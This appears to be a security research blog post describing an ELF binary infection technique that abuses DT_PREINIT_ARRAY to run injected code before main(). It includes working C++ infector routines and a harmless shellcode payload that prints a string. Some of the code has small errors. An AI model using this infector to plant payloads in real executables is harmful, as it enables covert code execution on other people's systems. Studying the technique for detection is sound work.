



# The Early Bird Gets the Loader

### 1. Objective

This article presents a practical technique for achieving early-stage code execution in ELF binaries by leveraging `preinit_array` mechanism. The technique uses a combination of payload injection within existing segment padding and manipulation of the dynamic table to redirect execution via DT\_PREINIT\_ARRAY.&#x20;

Since `preinit_array` is executed very early in the startup process. The `preinit_array` runs before `.init`, `.init_array`, and `main()`, making it the earliest possible hook point in an ELF binary, this allows control to be gained before standard initialization routines run.

One important constraint is that this technique currently works fine with ET\_EXEC binaries, but does not directly extend to ET\_DYN binaries due to position-independent execution and relocation constraints.

### 2. Introduction

ELF binary infection has a long history in UNIX security research, building on old work of  Silvio Cesare's 1998 paper `"UNIX ELF Parasites and Virus"`\[1] which introduced the Text segment padding infection technique. This infection exploited the page-alignment gap between text and data segments padding bytes. Parasite code fills that gap, then `e_entry` is redirected to it, and after the payload execution is complete, the parasite jumps to the original entry.

```
key:
	[...]	A complete page
	V Parasitic Code 
	T	Text
	D	Data
	P	Padding
```

<pre><code>//Before Infection
#1	[TTTTTTTTTTTTPPPP]		&#x3C;- The text segment
#2	[PPPPDDDDDDDDPPPP]		&#x3C;- The data segment

//After Infection
#1	[TTTTTTTTTTTT<a data-footnote-ref href="#user-content-fn-1">VV</a>VP]		&#x3C;- Text segment
#2	[PPPPDDDDDDDDPPPP]		&#x3C;- Data segment
</code></pre>

### 3. ELF Internal

Before continuing, we need a basic understanding of ELF internals.The ELF file is divided in two parts. The first is ELF header and the second is ELF data.

ELF header is the first component of ELF file, containing information about ELF file, like its type, architecture, moreover the whole file organization.&#x20;

Further the ELF data is made up of Program headers, Section headers, and Data.

One of the important segment is  Program headers, it provide information about how the segments of the executable file should be loaded into memory during the program’s execution.&#x20;

The structure of Program headers is shown below.

```c
typedef struct {
	Elf64_Word	p_type;			//Segment type(PT LOAD, PT DYNAMIC, ...)
	Elf64_Word	p_flags;		//Segment flag (PF_R, PF_W, PF_X)
	Elf64_Off		p_offset;		//Offset in file
	Elf64_Addr	p_vaddr;		//Virtual adress in memory
	Elf64_Addr	p_paddr;		//Physical address
	Elf64_Xword	p_filesz;		//Bytes in file
	Elf64_Xword	p_memsz;		//bytes is memory
	Elf64_Xword	p_align;		//Alignment Constraints
} Elf64_Phdr;
```

Program header makes sure to do following thing:

* **Segment type** - identifies what the segment is for: code, data, dynamic linking information (`PT_DYNAMIC`), interpreter path (`PT_INTERP`).
* **Virtual address** - the exact memory address where the segment should land when the process starts.
* **File offset** - where in the binary file the segment's raw bytes actually live.
* **Size and permissions** - size and permission of the segment.

<figure><figcaption></figcaption></figure>


#### 3.1  p\_type = PT\_LOAD&#x20;

Going a bit deeper into the program header, The first entry in program header structure is segment type which can be `PT_LOAD`, `PT_DYNAMIC`, `PT_INTERP` and so on.&#x20;

Your code, your global variables, your constants,  lives inside a `PT_LOAD` segment. The kernel reads the program header table, finds every entry with `p_type == PT_LOAD`, and maps each one into the process's virtual address space using `mmap` .

```
Segment    |    Flags    |    Contains
-----------|-------------|-----------------------------------------------
PT_LOAD    |    R | E    |    .text, .rodata — code and read-only data
PT_LOAD    |    R | W    |    .data, .bss — writable data
```

#### 3.2 p\_offset

The byte offset from the beginning of the file where this segment's data starts.

#### 3.3 p\_vaddr

&#x20;p\_vaddr identifies the virtual address of the start of the segment. When your process starts, the kernel maps the segment to exactly this address. For `ET_EXEC` binaries this is fixed at link time. For `ET_DYN` (PIE) binaries, a base address is added on top.

#### 3.4 p\_filesz and p\_memsz

Now another entry in structure that trips people up the most are `p_filesz` and `p_memsz`:

* **`p_filesz`** — how many bytes the kernel reads from the binary file and maps into memory
* **`p_memsz`** — how many bytes the segment actually occupies in virtual memory

These two are allowed to differ, and they do. The classic example is `.bss` — uninitialized global variables. They take up zero space in the file  but they need real memory at runtime. So `p_memsz > p_filesz`, and the kernel zero-fills the gap.&#x20;

#### 3.5 p\_type  = PT\_DYNAMIC

Lets move on to the one more segment which would be used in this POC - PT\_DYNAMIC

Every dynamically linked binary on Linux has this segment. It is what separates a binary that can resolve shared libraries, relocate symbols, and run initialization code, from one that can't. The kernel maps all the segments into memory using the program header table, and then hands control to `ld.so`. The first thing `ld.so` does is find the `PT_DYNAMIC` segment and start reading it.

Inside `PT_DYNAMIC` lives the **dynamic table,** an array of tag-value pairs that tells it everything it needs to resolve symbols, load libraries, and initialize the program before `main()` ever runs.

```c
typedef struct {
    Elf64_Sxword d_tag;     // what kind of entry this is
    union {
        Elf64_Xword d_val;  // integer value
        Elf64_Addr  d_ptr;  // or a memory address
    } d_un;
} Elf64_Dyn;
```

The array is terminated by a `DT_NULL` entry.The linker walks the array until it hits `DT_NULL` and stops.

When `ld.so` loads a dynamically linked binary, your `main()` is not the first thing that runs. Before execution ever reaches your code, `ld.so` walks the dynamic table and fires off initialization functions in a strict, ABI-defined order:

```c
Initialization Order:
────────────────────
  1. DT_PREINIT_ARRAY  ← executes FIRST (executables only)
  2. DT_INIT            ← .init section
  3. DT_INIT_ARRAY      ← C++ constructors, __attribute__((constructor))
  4. main()             ← program entry
  5. DT_FINI_ARRAY      ← cleanup
  6. DT_FINI             ← .fini section
```

### 4. DT\_PREINIT\_ARRAY WHO???

So, according to the initialization order we just saw, there's something called `DT_PREINIT_ARRAY` at the top. If you have been writing C or C++ on Linux for years and never heard of `DT_PREINIT_ARRAY` , it's alright. `DT_PREINIT_ARRAY` is a dynamic table entry that points to an array of function pointers. When `ld.so` finds this entry, it calls each function in that array, in order, before anything else in the binary runs including `.init`, `main()` or whatsoever.&#x20;

It comes as a pair of entries in the dynamic table:

```
DT_PREINIT_ARRAY    (32)   → address of the function pointer array
DT_PREINIT_ARRAYSZ  (33)   → size of that array in bytes
```

`ld.so` uses the size to know how many pointers to iterate over. Each pointer gets called as a plain C function.

Now, the question why have you never heard of it? Because no one uses it.

Run this on any linux environment and there will be zero output.&#x20;

```
readelf -d /usr/bin/* /usr/sbin/* 2>/dev/null | grep PREINIT | wc -l
```

Is it even used then? well, The primary legitimate use case is **sanitizer runtimes.**

The most common industrial use case is by Google’s [compiler-rt sanitizers](https://www.google.com/url?sa=i\&source=web\&rct=j\&url=https://compiler-rt.llvm.org/\&ved=2ahUKEwjukYOZ55-UAxXSTWcHHQgVMHAQy_kOegQIBBAC\&opi=89978449\&cd\&psig=AOvVaw3gb6zbRyFMuHENZw-3Qevq\&ust=1777990043707000) (AddressSanitizer, ThreadSanitizer, LeakSanitizer, UndefinedBehaviorSanitizer).&#x20;

There are tools like AddressSanitizer (ASan) and ThreadSanitizer (TSan) that need to intercept memory operations and set up their own runtime environment before `libc` even initializes. They need to run so early that the normal constructor mechanism (`DT_INIT_ARRAY`) is simply too late. `DT_PREINIT_ARRAY` is the only standard hook that fires early enough.

### 5. Infection Technique

#### 5.1 Goal

The main goal of this POC is to modify an existing ELF executable in such a way that our parasite code gets executed through the `DT_PREINIT_ARRAY` callback, while the original program continues to run normally without any visible breakage. In other words, instead of redirecting `e_entry` like traditional ELF parasites, we want the dynamic loader itself to invoke our payload as part of the legitimate startup sequence.

#### 5.2 Algorithm Overview

To achieve this, three conditions must be satisfied.

* First, parasite code must be stored inside a region of the binary that will actually be mapped into executable memory at runtime which will be in PT\_LOAD(R|X) segment.
* Second, a valid function pointer array has to be created so that `DT_PREINIT_ARRAY` can reference it. whic will be in PT\_LOAD (R|W) segment.
* Third, the dynamic table itself must be modified to include `DT_PREINIT_ARRAY` and `DT_PREINIT_ARRAYSZ` entries without corrupting the existing loader metadata.

structured to understand visually:

```c
Before infection:
─────────────────────────────────────────────────────────
  RX PT_LOAD:  [ .text | .rodata | padding ]
  RW PT_LOAD:  [ .data | .bss    | padding ]
  PT_DYNAMIC:  [ DT_NEEDED | DT_SYMTAB | ... | DT_NULL ]

After infection:
─────────────────────────────────────────────────────────
  RX PT_LOAD:  [ .text | .rodata | padding | PAYLOAD ]
                                              ^
                                              payload_vaddr

  RW PT_LOAD:  [ .data | .bss | padding | PTR→payload_vaddr ]
                                          ^
                                          pointer_vaddr

  PT_DYNAMIC:  [ DT_NEEDED | ... | DT_PREINIT_ARRAY→pointer_vaddr | DT_PREINIT_ARRAYSZ=8 | DT_NULL ]

Execution flow after infection:
─────────────────────────────────────────────────────────
  ld.so loads binary
  ld.so reads DT_PREINIT_ARRAY  -> pointer_vaddr
  ld.so reads [pointer_vaddr]   -> payload_vaddr
  ld.so calls payload_vaddr()   -> parasite runs
  ld.so continues initialization -> .init -> main()

```

#### Step 1: Append payload to RX segment.

The payload is appended to the end of the executable (RX) PT\_LOAD segment. We write the payload bytes at the exact file offset where the RX segment currently ends, then update the segment's `p_filesz` and `p_memsz` to include them.&#x20;

* **File view** → where bytes are located inside the ELF file (`p_offset`)
* **Memory view** → where that segment gets loaded in memory (`p_vaddr`)

```
file_offset    = rx_seg.p_offset + rx_seg.p_filesz // Calculated the file offset where RX segment wull end
payload_vaddr  = rx_seg.p_vaddr + rx_seg.p_filesz // Address where payload will be kept    
               = rx_seg.p_vaddr + (file_offset - rx_seg.p_offset)
               
//After writing payload bytes to include our payload in segment.
rx_seg.p_filesz += payload_size 
rx_seg.p_memsz += payload_size
```

For ET\_EXEC binaries, the load address is fixed, so the virtual address computed at infection time is exact at runtime:

#### Step 2: Write function pointer to RW segment

`DT_PREINIT_ARRAY` does not point directly to code. It points to an **array of function pointers** in writable memory, and `ld.so` calls each pointer in that array. So we plant an 8-byte pointer at the end of the data segment, and update that segment's sizes to cover it.

```
ptr_vaddr  = rw_seg.p_vaddr + rw_seg.p_filesz
ptr_offset = rw_seg.p_offset + rw_seg.p_filesz

//After writing payload address bytes.
rw_seg.p_filesz += 8
rw_seg.p_memsz  += 8
```

#### Step 3: Dynamic Table Manipulation

The final step is telling `ld.so` that this function pointer array exists. We do that by injecting two new entries into the dynamic table :  `DT_PREINIT_ARRAY` pointing to our pointer array, and `DT_PREINIT_ARRAYSZ` giving its size.

The dynamic table always ends with a `DT_NULL` . Most binaries have a few empty slots after the last real entry and before `DT_NULL` padding left by the linker. We will iterate array until we find `DT_NULL`, write our two entries there, and push `DT_NULL` forward by two slots.

```
// Find DT_NULL terminator
i = 0
while dyn[i].d_tag != DT_NULL: i++

// Insert DT_PREINIT_ARRAY
dyn[i].d_tag       = DT_PREINIT_ARRAY   // tag = 32
dyn[i].d_un.d_ptr  = pointer_vaddr      // address of our function ptr

// Insert DT_PREINIT_ARRAYSZ
dyn[i+1].d_tag     = DT_PREINIT_ARRAYSZ // tag = 33
dyn[i+1].d_un.d_val = 8                 // one 8-byte pointer

// Restore DT_NULL
dyn[i+2].d_tag     = DT_NULL
dyn[i+2].d_un.d_val = 0

// Extend dynamic segment to account for two new entries
dyn_phdr.p_filesz += 2 * sizeof(Elf64_Dyn)  // += 32 bytes
dyn_phdr.p_memsz  += 2 * sizeof(Elf64_Dyn)
```

When `ld.so` now loads this binary, it finds `DT_PREINIT_ARRAY`, reads the pointer from the RW segment, and calls it — executing our payload before `.init`, before constructors, before `main()`. The original program never knows anything happened.

### 6. Implementation

The infector is written in C++. The goal is simple: open a binary, find three segments, modify them, close the file. And do some of the arithmetic operations.

#### 6.1 Payload&#x20;

This payload performs a direct Linux `write` system call to print: `[PREINIT] ran!`&#x20;

Also, Rather than relying on libc functions such as `printf`, the payload invokes the kernel directly using the `syscall` instruction. This removes dependencies on symbol resolution and runtime linking, which is important because `DT_PREINIT_ARRAY` executes very early during process initialization, before the runtime environment is fully prepared.

So, for now whenever a binary is infected by this payload. It will print `[PREINIT] ran!` before any other execution.

```cpp
unsigned char payload[] = {
    0x48,0xc7,0xc0,0x01,0x00,0x00,0x00,
    0x48,0xc7,0xc7,0x01,0x00,0x00,0x00,
    0x48,0x8d,0x35,0x0a,0x00,0x00,0x00,
    0x48,0xc7,0xc2,0x0f,0x00,0x00,0x00,
    0x0f,0x05,
    0xc3,
    '[','P','R','E','I','N','I','T',']',' ',
    'r','a','n','!','\n'
};
size_t payload_size = sizeof(payload);
```

#### 6.2 Structure

Need two custom struct to do everything.

First, `ELF` holds everything about the binary in one place — an open file handle, the parsed ELF header, all program headers loaded into an array, and three pointers into that array for the three segments we care about.&#x20;

Second, `PayloadInfo` is a small container that the payload injection step returns. It holds two addresses, where the payload sits in the file and where it will sit in memory at runtime.

```cpp
#define MAX_DYN  256
#define MAX_PHDR  32

struct ELF {
    fstream    file;
    Elf64_Ehdr ehdr;
    Elf64_Phdr phdr[MAX_PHDR];
    Elf64_Phdr *rx_seg;
    Elf64_Phdr *rw_seg;
    Elf64_Phdr *dyn_seg;
};

struct PayloadInfo {
    uint64_t virtual_address;
    uint64_t file_offset;
};
```

#### 6.3 Read ELF Header and PROGRAM Header&#x20;

The function filters the input binary by considering only ELF files and further where `e_type` is `ET_EXEC`, then read the program header.

```cpp

//Reading ELF header to filer ELF and ET_EXEC...
int read_elf_header(ELF &elf){
    elf.file.seekg(0);
    elf.file.read((char*)&elf.ehdr, sizeof( Elf64_Ehdr));

    if(memcmp(elf.ehdr.e_ident, ELFMAG, 4) != 0{
        cout<<"Newt ELF!!!\n";
        return 0;
    }

    if(elf.ehdr.e_type !=ET_EXEC){
        cout<<"Newt EXEC!!!\n";
        return 0;
    }
}
//Reading program header...
void read_program_header(ELF &elf){
    elf.file.seekg(elf.ehdr.e_phoff);

    elf.file.read((char*)elf.phdr, elf.ehdr.e_phnum *sizeof(Elf64_Phdr));
}
```

#### 6.4 Locate RX, RW and Dynamic Segment

We iterate the program header table once till `e_phnum`, `e_phnum` tells us how many entries exist. For each entry we check two things: type and flags.

```cpp
void locate_segments(ELF &elf)
{
    elf.rx_seg = nullptr;
    elf.rw_seg = nullptr;
    elf.dyn_seg = nullptr;

    for(int i = 0; i<elf.ehdr.e_phnum;i++)
    {
        if(elf.phdr[i].p_type == PT_LOAD)
        {
            if(elf.phdr[i].p_flags == (PF_R|PF_X)) //For the execute segment where payload will go...
                elf.rx_seg = &elf.phdr[i];

            if(elf.phdr[i].p_flags == (PF_R|PF_W))//For the data segment where pointer will go..
                elf.rw_seg = &elf.phdr[i];    
        }
        if(elf.phdr[i].p_type == PT_DYNAMIC)//For dynamic segment
            elf.dyn_seg = &elf.phdr[i];
    }
    if(!elf.rx_seg || !elf.rw_seg || !elf.dyn_seg)
    {
        cout << "Missing required segments\n";
        exit(1);
    }
}
```

#### 6.5 Payload Injection

First, `file_offset` is computed: `p_offset + p_filesz` gives the byte position in the file immediately after the RX segment ends. **That is our injection point**.

Then, we calculate how far the payload is from the start of the segment in the file: `file_offset - p_offset.`

Now, to know at what address will this payload have after the loader maps the segment, we add it to the segment's memory base address: `virtual_address = p_vaddr + (file_offset - p_offset)`

Then just extend of `p_filesz` and `p_memsz` in term of payload size, so the kernel maps those extra bytes as part of the executable segment, then seek to `file_offset` and write raw payload bytes and return the `PayloadInfo` struct returning both address.&#x20;

```cpp
PayloadInfo inject_payload(ELF &elf)
{
    PayloadInfo info;

    info.file_offset = elf.rx_seg->p_offset + elf.rx_seg->p_filesz;
    info.virtual_address = elf.rx_seg->p_vaddr + (info.file_offset - elf.rx_seg->p_offset);
    
    elf.rx_seg->p_filesz += payload_size;
    elf.rx_seg->p_memsz += payload_size;

    save_program_headers(elf);

    elf.file.seekp(info.file_offset);
    elf.file.write((char*)payload,payload_size);

    return info;
}
```

#### 6.6 Writing the function pointer

The next step is creating a valid PREINIT\_ARRAY entry. Unlike a direct control-flow hijack, `DT_PREINIT_ARRAY` does not point directly to executable code. Instead, it points to an array of function pointers that the dynamic loader iterates and invokes during process initialization.

Infector appends an 8-byte function pointer inside the writable (`RW`) segment. This pointer contains the virtual address of the injected payload. The address of this newly created pointer entry is then returned as `pointer_vaddr`. Later, this value becomes the target of the `DT_PREINIT_ARRAY` dynamic entry.

```cpp
uint64_t write_pointer(ELF &elf, uint64_t payload_vaddr)
{
    uint64_t pointer_vaddr = elf.rw_seg->p_vaddr + elf.rw_seg->p_filesz;

    uint64_t pointer_file_offset = elf.rw_seg->p_offset + elf.rw_seg->p_filesz;

    elf.file.seekp(pointer_file_offset);
    elf.file.write((char*)&payload_vaddr, 8);

    elf.rw_seg->p_filesz += 8;

    if (elf.rw_seg->p_memsz < elf.rw_seg->p_filesz)
        elf.rw_seg->p_memsz = elf.rw_seg->p_filesz;

    save_program_headers(elf);

    return pointer_vaddr;
}
```

#### 6.7 Adding DT\_PREINIT\_ARRAY

With the payload injected and a valid function pointer placed inside the writable segment, the final step is extending the dynamic table to register a new `DT_PREINIT_ARRAY` entry.

The `add_preinit_array()` function locates the terminating `DT_NULL` entry inside the `.dynamic` section and overwrites it with two new dynamic entries.

```cpp
void add_preinit_array(ELF &elf, uint64_t pointer_vaddr)
{
    Elf64_Dyn dyn[MAX_DYN];

    elf.file.seekg(elf.dyn_seg->p_offset);
    elf.file.read((char*)dyn, elf.dyn_seg->p_filesz);

    int entries = elf.dyn_seg->p_filesz/sizeof(Elf64_Dyn);
    
    int null_index = 0;

    while(dyn[null_index].d_tag != DT_NULL)
        null_index++;
        
    //insert PREINIT_ARRAY
    dyn[null_index].d_tag = DT_PREINIT_ARRAY;
    dyn[null_index].d_un.d_ptr = pointer_vaddr;

    //insert PREINIT_ARRAYSZ
    dyn[null_index + 1].d_tag = DT_PREINIT_ARRAYSZ;
    dyn[null_index + 1].d_un.d_val = 8;

    //Restore null
    dyn[null_index+2].d_tag = DT_NULL;
    dyn[null_index+2].d_un.d_val = 0;

    elf.dyn_seg->p_filesz += 2*sizeof(Elf64_Dyn);
    elf.dyn_seg->p_memsz  += 2*sizeof(Elf64_Dyn);

    save_program_headers(elf);

    elf.file.seekp(elf.dyn_seg->p_offset);
    elf.file.write((char*)dyn, elf.dyn_seg->p_filesz);
}
```

### 7. Proof of Concept

Wrote a small C program which would be the target, compiled using no pie flags.

&#x20;`gcc -no-pie -o test test.c`

#### 7.1 Before Infection

Currently, when we run this program it run the main function and print on console

```c
#include <stdio.h>
int main(){
	printf("[MAIN] running\n");
	return 0;
}

//OUTPUT
[MAIN] running
```

#### 7.2 After Infection

After infection, we can see our payload ran before main() printing the `[PREINIT] ran!`  string on console.

<figure><figcaption></figcaption></figure>

Now, we will use readelf to see the difference in program header. As you can see RE and RW segment `filesiz` and `memsiz` is modified, proving our insertion did happen.

<figure><figcaption></figcaption></figure>

Also, on checking dyanmic entries, it can be seen that extra pair of entries has been added to dynamic table which is PREINIT\_ARRAY and PREINIT\_ARRAYSZ.

<figure><figcaption></figcaption></figure>

And that how we were able to take leverage of DT\_PREINIT\_ARRAY to execute our payload. Instead of redirecting `e_entry` like traditional ELF parasites, the technique leverages the dynamic loader’s legitimate initialization sequence to obtain execution before `.init`, constructors, and `main()`.

The infection process combines three operations: payload injection inside an executable `PT_LOAD` segment, creation of a function pointer inside writable memory, and dynamic table modification through insertion of `DT_PREINIT_ARRAY` and `DT_PREINIT_ARRAYSZ` entries.

The resulting proof of concept demonstrates that early-stage execution can be achieved entirely through loader metadata manipulation while preserving normal execution flow of the host program.

### 8. BYEEE!!!!

More recently one paper published on tmp.out zine, Isra's "House of Pain"\[2] which also demonstrated a modern x86-64 implementation of the same idea, with a twist of exploiting by identifying pattern in section layout to inject parasite without modifying any header. It patches the last byte of .init to 0xc3 (ret) on x86-64, with a jump into section padding. The parasite lives in that padding, chains into .fini padding for more space, and returns cleanly.&#x20;

That paper intrigued me to look further into execution flow and i stumbled upon preinit\_array, rarely discussed. The fun thing while doing this research was how `ld.so` does exactly what the System V ABI tells it to do.&#x20;

But still there is lot of limitation in this current work which i am focusing to work upon in next part.

The primary limitation is the restriction to non-PIE binaries. As modern Linux distributions increasingly default to PIE compilation, extending this technique to PIE binaries via relocation table manipulation is the natural next step, and will be the subject of future work.

Secondly, The current implementation also assumes there is sufficient slack space after the terminating `DT_NULL` entry inside the `.dynamic` section. While this is commonly true in practice, the infector does not currently verify available space before inserting new dynamic entries.

Finally the paper from which i got inspired write a parasite which is self-replicating. but, this is intentionally a standalone proof of concept and does not implement replication logic. Future work may explore PIE-compatible relocation handling, stealthier payload placement, automated relocation generation, and defensive detection techniques for abnormal `DT_PREINIT_ARRAY` usage.

### 9. References

\[1] Silvio Cesare. "UNIX ELF Parasites and Virus." 1998. http://ouah.org/elf-pv.txt

\[2] isra. "House of Pain." tmp0ut, 2024. https://tmpout.sh

\-------------------------------------------------------------------------------------------------

P.S The code can be found hereee: [https://github.com/e13v3n-0xb/DT\_PREINIT\_ARRAY-Abuse-for-Early-Stage-Execution](https://github.com/e13v3n-0xb/DT_PREINIT_ARRAY-Abuse-for-Early-Stage-Execution)


[^1]: parasitic code
